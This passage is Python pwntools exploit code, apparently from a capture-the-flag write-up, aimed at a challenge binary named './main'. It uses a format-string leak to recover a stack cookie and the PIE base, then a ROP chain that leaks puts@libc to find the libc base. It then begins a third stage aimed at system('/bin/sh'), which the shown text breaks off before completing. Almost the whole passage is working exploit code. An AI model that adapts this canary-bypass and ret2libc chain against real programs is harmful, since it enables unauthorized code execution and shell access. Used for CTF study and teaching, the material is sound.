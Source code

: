 ```python
r.sendlineafter(b"Please fill in your name:\n", fmt_payload)

r.recvuntil(b"Thank you ")

# parse leaks 
pie_leak_offset = 0x12c5

# receive raw data and split it on the . 
leaks = r.recvline().strip().split(b".")

# calculate pie_base
pie_base = int(leaks[1], 16) - pie_leak_offset
print(f"pie_base: {hex(pie_base)}")

# parse cookie leak 
cookie_leak = int(leaks[0], 16)
print(f"cookie: {hex(cookie_leak)}")

r.recvuntil(b"give me a secret to exploit me :).\n")

###
### Stage 2 : ROP chain to leak LIBC
###

# load ELF binary
e = ELF("./main")
# update address with leaked randomized pie_base
e.address = pie_base
# prepare rop module so we can grab gadgets
rop = ROP(e)

gadgets = [
    rop.find_gadget(['pop rdi', 'ret']).address,
    e.got['puts'],
    e.plt['puts'],
    e.symbols['main']
]


payload = b"A" * 56 + p64(cookie_leak) + b"B" * 8 + b"".join(p64(gadget) for gadget in gadgets)

r.sendline(payload)

# parse libc leak 
r.recvuntil(b"Bye, good luck next time :D \n")
libc_leak = u64(r.recvline().strip().ljust(8, b"\x00"))
print(f"puts@libc: {hex(libc_leak)}")

# calc libc_base and build final payload 
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
libc_base = libc_leak - libc.symbols['puts']
# update libc base address
libc.address = libc_base
print(f"libc_base: {hex(libc_base)}")


### 
### Stage 3 : ROP chain to execute system("/bin/sh")
###

r.sendlineafter(b"Please fill in your name:\n", b"AAA")
r.recvuntil(b"give me a secret to exploit me :).\n")

```